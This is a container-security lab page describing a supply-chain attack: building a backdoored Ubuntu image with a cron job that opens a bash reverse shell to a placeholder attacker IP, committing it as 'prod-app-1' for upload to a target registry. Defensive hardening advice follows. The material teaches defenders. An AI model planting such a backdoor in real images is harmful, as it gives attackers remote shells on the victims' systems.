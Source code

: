 # Backdoor Container
Fundamentally this is more of a container security issue, not specifically related to Kubernetes. If you're the images you're building applications into are compromised then your cluster can be compromised as well. This would be like if you downloaded an ubuntu ISO that contained malware before you even installed it. 

## Executing the attack 
Lets create a malicious image with a simple reverse shell backdoor to demonstrate how easy this is. When would we do this? Imagine we have identified that we can upload our own images to a company's container registry such as [harbor](https://github.com/goharbor/harbor). We're going to take advantage of that by uploading our own image, overwriting the "known good"  image that is currently being used. After doing some recon we've identified that the target is pulling a container image called "prod-app-1" to deploy their application into.

First, we must backdoor a container. To do so we're going to use the `ubuntu` image as our starting point. To download and launch the `ubuntu` docker image, run `docker run -it ubuntu`
> A quick note, you must be in the `docker` group to run docker without `sudo`.  To do so, run `sudo groupadd docker`, `sudo gpasswd -a $USER docker`, then run `newgrp docker`

Next, we're going to need to install cron into our container, add the backdoor, and then ensure cron is running.

```bash
# Update the repos and install cron 
apt update -y &> /dev/null && apt install -y cron &>/dev/null
apt update && apt install cron
# Create a backdoor using cron.
# Modified from this gist https://gist.github.com/hoefler02/2ca8166c167f147c8fb076b48eb7cb47
(touch .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
# Ensure cron is running
cron
```

![](../images/2024-03-20_22-51.png)

Next we need to save our container as an "image".  This saves our backdoored *ubuntu* container as an image called *prod-app-1* that can be deployed without our malicious configuration.

```bash
# Stage the current container into an image
sudo docker commit <container_id> <image_name>

# Save the image as a .tar file for transport to target
sudo docker save <image_name> > <image_name>.tar

# If you want to load the image as a container
sudo docker image load < <image_name>.tar
```
![](../images/2024-03-20_22-57.png)

Creating malicious images that are utilized as a "base" container is a [common attack vector](https://sysdig.com/blog/analysis-of-supply-chain-attacks-through-public-docker-images/).

## Defending against the attack
#### Defending 
Defending the container security layer is all about ensuring that the environment your application is running inside of is not able to be escaped should an attacker somehow find their way in through a vulnerability found in the code security layer such as command injection.

There are many different ways you can harden your container, however, it should be noted that conventional wisdom states that [containers should not be considered a strong security boundary](https://cloud.google.com/blog/products/gcp/exploring-container-security-an-overview). Even so, hardening your containers is a critical step in implementing defense in depth. Container security done right can greatly increase the time and effort an attacker needs to compromise a cluster.  Here are some high level recommendations for ensuring the container security layer is hardened

- **Pre-commit hooks**: Install and configure pre-commit hooks and code editor extensions to enforce best practices for developers creating containers. One example is using [trufflehog](https://github.com/trufflesecurity/trufflehog) to check for secrets before they're committed to code.
- **SAST Scanning**: Running security scanning tooling such as tooling such as [kics](https://www.kics.io/index.html#), [hadolint](https://github.com/hadolint/hadolint), [checkov](https://www.checkov.io/7.Scan%20Examples/Dockerfile.html), etc against Dockerfiles can help identify misconfigurations in the container images.
- **Container Registries**: Container registries act as a repository to store container images in after they've been built. Container registries allow you to build an inventory of approved base images that are approved in policy to use. One of the most common base images is [Alpine Linux](https://hub.docker.com/search?image_filter=official&q=), which is an ultra minimal Linux environment. Images can be validated using [conftest](https://www.conftest.dev/). A popular container registry to sign and store these images is [harbor](https://github.com/goharbor/harbor) as it is open source, and allows for scanning of images for vulnerabilities which brings us to the next recommendation. 
- **Image Scanning**: Scan container images for known vulnerabilities using tools such as [trivy](https://github.com/aquasecurity/trivy), [Clair](https://github.com/quay/clair?tab=readme-ov-file), or [Dagda](https://github.com/eliasgranderubio/dagda). This should tell you if an application or dependency in your container has a known CVE associated with it. It does not identify *new* vulnerabilities in your applications.
- **Container Signing**: Cryptographically signing containers with a tool such as [cosign](https://github.com/sigstore/cosign) will allow you to validate that the container image you're deploying is the same image you built and hasn't been infected with malware. (Unless the malware was introduced before you signed it...)
- **Secrets**: When building docker images, avoid hard-coding secrets into Dockerfiles and environment variables by using the `--secrets` and `--mount` flag. This will allow commands in the docker container to pass in secrets from a file and the secrets will not persist in the final container image.
- **Implement least privilege**: Containers should be minimized as much as possible to remove any unneeded software. It's not uncommon for hardened containers to only have a few binaries installed that make doing *anything* besides running the intended application a huge pain. This can be done by utilizing multistage builds that build software in the first image, then copy the freshly built binaries into a new container. Operating in this way means the final container image does not have the build tools inside the final container, further minimizing the image.
- **Monitoring**: Monitoring your containers for suspicious activity can be done by utilizing tools such as [Falco](https://github.com/falcosecurity/falco). While this can generate alerts, it's important that alerts are actionable and monitored. [This is a great overview of using Falco](https://www.blackhillsinfosec.com/real-time-threat-detection-for-kubernetes-with-atomic-red-tests-and-falco)
